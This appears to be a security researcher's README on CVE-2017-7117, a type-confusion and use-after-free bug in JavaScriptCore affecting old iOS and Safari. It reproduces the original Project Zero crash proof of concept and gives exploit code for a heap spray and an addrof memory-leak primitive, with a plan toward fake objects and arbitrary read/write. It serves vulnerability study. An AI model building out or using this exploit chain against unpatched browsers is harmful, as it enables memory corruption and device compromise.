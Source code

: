 # cve-2017-7117

## About the Bug

A type-confusion and UAF found in iOS 10.3.4 and earlier, Safari before 11.0.

CVE-2017-7117: [mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7117)

## Original Proof of Concept

Discovered by @lokihardt, source: [Google Project Zero](https://project-zero.issues.chromium.org/issues/42450350)

```js
function f() {
  let o = {};
  for (let i in {xx: 0}) { // i is a String
    for (i of [0]) { // i is now a number, but JIT treats as String
    }
    print(o[i]); // whoops
  }  
}

f();
```

Running the code above will cause JSC to crash.

## The Exploit

We craft a large array `arr`, that the JIT compiler will become confused into beleiving is a string. 

```js
var arr = new Uint32Array(1 * 1024 * 1024 / 4); // 1mb | 1 item == 4 bytes
arr[4] = 0xb0; // to pass checks for the member m_hashAndFlags 
```

When the reference to `i` is lost, we maintain access to the original array `arr` and can read the underlying memory.

By spraying a known value we can find this and traveerse up to locate the pointer to any object.

```js
function addrof(obj) {

    // search the freed array for this number
    var locator = 0x1337;

    // spray the freed memory with the locator
    var sprays = [];
    for (var i = 0; i < 0x1000; ++i) {
        sprays.push(i % 2 == 0 ? locator : obj);
    }

    // find the first instance of the locator
    var found = null;
    for(var i = 0; i < arr.length; i++) {
        if(arr[i] == locator) {
            found = i
            break
        }
    }

    // the pointer for the object is 3 and 2 indicies after the locator
    return found && [arr[found + 3], arr[found + 2]]

}
```

Values are accessed in memory via a `Uint32Array`, lower bits first, upper bits second.

```js
let target = {
    foo: "bar"
}

let address = addrof(target)
// address: 0x0000ffff8d178e60
```

You can verify the address is valid using `describe()`

```js
print(describe(target))
// Object: 0xffff8d178e60 with butterfly (nil) (0xffff9099bba0:[Object, {foo:0}, NonArray, Proto:0xffff909b00a0, Leaf]), ID: 244
```

## Replicate the Setup

Tested on:
- Ubuntu 20.04.5 LTS ARM64
- Vulnerable JavaScriptCore (JSC) from libwebkitgtk version 2.16.0
  - Build archive: [launchpad.net](https://launchpad.net/ubuntu/+source/webkit2gtk/2.16.0-1)
- LLDB for memory inspection (optional)

## Next Steps?

- Craft a fake object
- Read / write arbitrary memory
- Jailbreak iOS 10?
